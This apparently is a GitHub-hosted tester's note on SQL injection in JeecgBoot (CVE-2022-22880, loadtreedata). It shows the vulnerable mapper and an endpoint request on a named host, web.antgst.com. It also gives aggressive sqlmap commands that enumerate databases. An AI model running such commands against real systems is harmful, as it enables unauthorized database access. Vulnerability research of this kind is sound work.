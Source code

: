 # test inject sql

when the code review on the github, here have some open issue about the sql inject. following is the links:

- [CVE-2022-22880](https://github.com/jeecgboot/JeecgBoot/issues/3347)
- [sys/dict/loadtreedata](https://github.com/jeecgboot/JeecgBoot/issues/1887)

## CVE-2022-22880

`GET https://web.antgst.com/antgst/sys/user/queryUserByDepId?id=57197590443c44f083d42ae24ef26a2c&realname=`

the `realname` mapper is:

```xml
<select id="queryDepartUserList" resultType="org.jeecg.modules.system.entity.SysUser">
    select a.* from sys_user a
    join sys_user_depart b on b.user_id = a.id
    join sys_depart c on b.dep_id = c.id
    where a.del_flag = 0 and c.org_code like '${orgCode}%'
    <if test="realname!=null and realname!=''">
        and a.realname like '%${realname}%'
    </if>
</select>
```

The MyBatis query uses `${realname}` instead of `#{realname}`, `${}` does direct string interpolation without escaping.

### request

the normal request is

```json
{
    "success": true,
    "message": "操作成功！",
    "code": 0,
    "result": [
        {
            "id": "e888946e0213c9a4685bd94e7f1563ae",
            "username": "SS678",
            "realName": null,
            "avatar": null,
            "orgCode": null,
            "status": 1,
            "drTimeout": 0,
            "workNo": null,
            "post": null,
            "notes": null,
            "createBy": "ANT_July",
            "createTime": "2024-03-18 15:17:27",
            "updateBy": null,
            "updateTime": null,
            "activitiSync": null,
            "departId": "a16ca6032b3745f095b80c510aba4af5",
            "departName": "SS678",
            "accountType": 4
        }
    ],
    "timestamp": 1734502811142
}
```

### try exploit

use the sqlmap to test the sql inject

```bash
sqlmap -r queryUserByDepId.txt \
-p realname \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch
```

## loadtreedata

sqlmap to exploit the `loadtreedata` api

```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
-t trace.txt 
```


here have the sql check on the websit, the response is:

```json
{"success":false,"message":"服务器开小差了，请尽快联系服务人员","code":500,"result":null,"timestamp":1734507668132}
```